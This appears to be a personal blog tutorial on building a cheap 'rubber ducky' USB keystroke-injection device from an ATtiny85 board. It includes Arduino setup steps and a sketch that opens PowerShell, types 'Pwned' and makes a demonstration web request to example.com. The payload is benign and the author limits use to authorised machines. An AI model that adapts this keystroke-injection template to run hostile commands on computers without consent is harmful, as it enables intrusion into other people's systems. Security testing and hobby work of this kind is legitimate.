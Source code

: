 # Make your own rubber ducky

---

![Credit to camo](https://camo.githubusercontent.com/8944ce0301f2c573d0a1a64ff51e8ee4e98043f4e7da5c5d92452233031623bc/68747470733a2f2f692e6962622e636f2f6a5a32777658302f4e455745562d41542e706e67)
   
Credit to camo


If you don't know, a rubber ducky is essentially a pre-programmed USB keyboard that types at a super fast speed. Oh, it also looks like a harmless flash drive ;)


You can find the official rubber ducky from the Hak5 [website](https://shop.hak5.org/products/usb-rubber-ducky). At a price of ~$80 it's not cheap...

Thankfully you can make your own for ~$2.50! All it requires is 
- An [Attiny85](https://www.amazon.co.uk/attiny85/s?k=attiny85)
- Some [drivers](https://github.com/digistump/DigistumpArduino/releases)
- The [Arduino IDE](https://www.arduino.cc/en/software)
- A Windows OS (I haven't tested on Linux)


## Installation

To install the drivers just extract the zip, and run either DPinst64 (for x64 systems) or DPinst (for x32 systems).

To setup the Arduino IDE, open it up and go to: 
- File -> Preferences -> Additional Boards Manager URLs and enter `https://digistump.com/package_digistump_index.json`
![Arduino](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/Capture.PNG)

![Additonal Board URLs](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/Additional_Board_Manager.PNG)

![Digistump Index](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/digistump_index.PNG)

- Tools -> Board -> Boards Manager and enter digispark and select `Digistump AVR Boards by Digistump` to install it

![Boards Manager](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/boards_manager.PNG)

![Digispark Board](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/digistump_board.PNG)

- Tools -> and Select "Board Digispark (Default - 16.5mhz)"

![Select Digispark](https://raw.githubusercontent.com/Henryisnotavailable/Henryisnotavailable.github.io/main/assets/images/Select_Board.PNG)



## Creating the malicious script

Ok! We're all set up, now we can write some basic code. In the Arduino IDE paste the following code.
```
#include "DigiKeyboard.h"

void setup() {
  // This runs once, you could move the core code here. But I prefer to have it in the loop. 
}
void loop() {
  DigiKeyboard.sendKeyStroke(0); //Not always required, but can help make sure the first keystrokes don't get cut off.
  DigiKeyboard.delay(500); 
  // Trigger Windows + R
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  //"Type" powershell then press ENTER (println == print with a newline)
  DigiKeyboard.println("powershell");
  DigiKeyboard.delay(500);
  // "Type" the following and then press ENTER
  DigiKeyboard.println("echo 'Pwned'");
  DigiKeyboard.delay(500);
  //Make an HTTP request to example.com
  DigiKeyboard.println("iwr https://example.com");
  DigiKeyboard.delay(500);
  // Blink the red LED when the code has finished executing
  while (true)
  {
    digitalWrite(0, HIGH);
    digitalWrite(1, HIGH);
    delay(300);
    digitalWrite(0, LOW);
    digitalWrite(1, LOW);
    delay(300);
  }
}
```

Once you're ready, press **Verify** (the Tick in the top left) to ensure it compiles correctly.

If it does, press **Upload** (the -> in the top left) to start flashing it.

You should see the following:
```
Sketch uses 3168 bytes (52%) of program storage space. Maximum is 6012 bytes.
Global variables use 136 bytes of dynamic memory.
Running Digispark Uploader...
Plug in device now... (will timeout in 60 seconds)
```

So plug it in and wait a couple seconds... Ok, should have worked!


Now, you can plug it in to a Windows PC (that you have authorisation to) and run the code :). 

As a word of warning, the default Keyboard layout is **US** based, so you might run into issues if you use a different keyboard layout.


